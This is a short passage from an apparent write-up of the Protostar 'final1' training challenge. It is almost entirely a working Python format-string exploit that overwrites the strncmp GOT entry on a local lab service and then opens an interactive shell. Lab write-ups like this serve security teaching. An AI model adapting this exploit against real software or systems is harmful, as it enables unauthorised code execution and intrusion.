 ![characters-overwritten](/public/image/protostar-final/characters-overwritten.png)

### Exploit

```shell
import socket, struct, telnetlib

HOST = '127.0.0.1'
PORT = 2994
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

def read_until(check):
        buf = ''
        while check not in buf:
                buf += s.recv(1)
        return buf

# handle misalignment
host, port = s.getsockname()
hostname = host + ":" + str(port)

pad = 'A' * (24 - len(hostname))
strncmp_got = 0x804a1a8
username = pad + struct.pack("I", strncmp_got) + struct.pack("I", strncmp_got + 2)
username += '%47036x' + '%18$hn' + '%18372x' + '%17$hn'
login = 'CCCC'

print read_until('[final1] $ ')
s.send('username ' + username + '\n')
print read_until('[final1] $ ')
s.send('login ' + login + '\n')
print read_until('[final1] $ ')

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

